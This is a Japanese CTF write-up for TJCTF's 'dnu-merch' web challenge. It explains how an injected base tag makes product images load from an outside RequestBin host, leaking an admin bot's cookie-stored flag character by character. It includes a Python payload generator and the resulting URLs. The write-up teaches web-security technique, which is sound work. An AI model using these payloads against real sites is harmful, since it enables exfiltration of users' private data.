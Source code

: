 # dnu-merch:web:XXXXpts
So, since everybody got into DNU during the RD round, we can all buy merch. However, I didn't get honors so I can't buy their super secret flag. I heard that the admin of the site is actually an honors student at DNU, pls sice me.  
[dnu-merch.tjc.tf](https://dnu-merch.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/dnu-merch)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
サイトとAdmin Botとソースが渡される。  
アクセスすると商品を検索できるサイトのようだ。  
DNU Merch Catalog  
[site1.png](site/site1.png)  
プレースホルダーにある`Sweatshirt`を検索すると写真付きの商品がヒットした。  
![site2.png](site/site2.png)  
頭文字である`S, T`と検索すると、ヒットするものすべてが表示される。  
どうやらcookieに商品一覧が入っており、それを検索しているようだ。  
![site3.png](site/site3.png)  
Admin BotがあるのでXSSを狙う。  
`S, <s>atoki`のように商品がヒットする場合にタグを挿入することに成功した。  
![xss.png](images/xss.png)  
次にCSPを見てみる。  
```html
~~~
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://* http://* 'self'; child-src 'none'; object-src 'none';">
~~~
```
metaタグにて指定されており、imgが不自然に緩いがscriptやcssでの攻撃は狙えそうにない。  
Admin Botのふるまいを見てみると以下のようであった。  
```js
~~~
export default {
  id: 'dnu-merch',
  name: 'dnu-merch',
  timeout: 154000,
  handler: async (url, ctx) => {
    const page = await ctx.newPage();
    await page.setCookie({
      domain: 'dnu-merch.tjc.tf',
      name: 'items',
      value: JSON.stringify([{ title: flag.trim(), cost: 100000 }]),
      secure: true,
      sameSite: 'None',
    });
    await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
    await sleep(150000);
  },
};
```
`flag`を`title`にした商品をAdmin Botのcookieに追加し、送信されたURLにアクセスするようだ。  
つまり、Admin Botにのみ存在する商品名をリークする必要がある。  
ひとまず`Sweatshirt`を`flag`とみたてて商品表示部分を見てみる。  
```html
~~~
<div class="result-card">
  <div class="img-bg">
    <img class="img-merch" src="/public/merch/dnu_sweater.png">
  </div>
  <h3 class="result-card-title">Sweatshirt</h3>
  <h5 class="result-card-cost">$30</h5>
</div>
~~~
```
titleにある商品名を取得するのは難しい。  
ここで、imgが相対パスで記述されていることに気づく。  
CSPに指定のなかったbaseをタグとして挿入すれば、任意のサイトのimgを表示させることができる。  
挿入するタグは`<base href="https://satoki.example.com/">`のようになる。  
すると画像のフルパスは`https://satoki.example.com/public/merch/dnu_sweater.png`となる。  
画像を外部から取得できることは一見すると何も意味がないと感じるが、ここで検索で商品がヒットしない場合には画像が表示されないことを思い出す。  
つまり、画像へのリクエストが来るかどうかで検索でヒットしたかどうかを外部から知ることができる。  
そして検索は頭文字など部分一致でもヒットしていた。  
これらを用いてAdmin Bot上から一文字ずつ商品名をリークできる。  
商品名がflagになっているはずなので`tjctf{X, <base href="https://xxxxxxxxxxxxx.x.pipedream.net/">`の`X`を変更してAdmin Botに投げる。  
画像へのリクエストが来た場合、検索にヒットしているものがあるため、文字が確定する。  
ここではリクエストの取得に[RequestBin.com](https://requestbin.com/)を用いた。  
手動で一文字ずつ行うのはつらいので、以下のleak.pyで文字を大雑把に予測し、その中から手動で見つけ出す手法をとる。  
```python
flag = "tjctf{"
recv_url = "https://xxxxxxxxxxxxx.x.pipedream.net"
guess_list = ["abcdefg","hijklmn","opqrstu","vwxyzAB","CDEFGHI","JKLMNOP","QRSTUVW","XYZ0123","456789_"]

for i in guess_list:
    print(f"https://dnu-merch.tjc.tf/search?search=", end="")
    for j in i:
        print(f"{flag}{j},%20", end="")
    print(f"%3Cbase%20href=%22{recv_url}%2F{flag}%2F{i}%2F%22%3E")
```
実行する。  
```bash
$ python leak.py
https://dnu-merch.tjc.tf/search?search=tjctf{a,%20tjctf{b,%20tjctf{c,%20tjctf{d,%20tjctf{e,%20tjctf{f,%20tjctf{g,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fabcdefg%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{h,%20tjctf{i,%20tjctf{j,%20tjctf{k,%20tjctf{l,%20tjctf{m,%20tjctf{n,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fhijklmn%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{o,%20tjctf{p,%20tjctf{q,%20tjctf{r,%20tjctf{s,%20tjctf{t,%20tjctf{u,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fopqrstu%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{v,%20tjctf{w,%20tjctf{x,%20tjctf{y,%20tjctf{z,%20tjctf{A,%20tjctf{B,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FvwxyzAB%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{C,%20tjctf{D,%20tjctf{E,%20tjctf{F,%20tjctf{G,%20tjctf{H,%20tjctf{I,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FCDEFGHI%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{J,%20tjctf{K,%20tjctf{L,%20tjctf{M,%20tjctf{N,%20tjctf{O,%20tjctf{P,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FJKLMNOP%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{Q,%20tjctf{R,%20tjctf{S,%20tjctf{T,%20tjctf{U,%20tjctf{V,%20tjctf{W,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FQRSTUVW%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{X,%20tjctf{Y,%20tjctf{Z,%20tjctf{0,%20tjctf{1,%20tjctf{2,%20tjctf{3,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FXYZ0123%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{4,%20tjctf{5,%20tjctf{6,%20tjctf{7,%20tjctf{8,%20tjctf{9,%20tjctf{_,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2F456789_%2F%22%3E
```
Admin Botにこれらを投げると、`/tjctf%7B/vwxyzAB/undefined`とリクエストが到達する。  
`wxyzAB`のどれかとわかるので、一つずつ確認すればよい。  
すると
```
https://dnu-merch.tjc.tf/search?search=tjctf{w,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fw%2F%22%3E
```
にて`/tjctf%7B/w/undefined`が到達したため、一文字目は`w`であることがわかった。  
これを繰り返し、すべてマッチしない場合には`}`となる。  
最終的に
```
https://dnu-merch.tjc.tf/search?search=tjctf{wtf_not_h0nors_14452dbc,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{wtf_not_h0nors_14452dbc%2F}%2F%22%3E
```
にて`/tjctf%7Bwtf_not_h0nors_14452dbc/%7D/undefined`が到達し、flagを取得することができた。  

## tjctf{wtf_not_h0nors_14452dbc}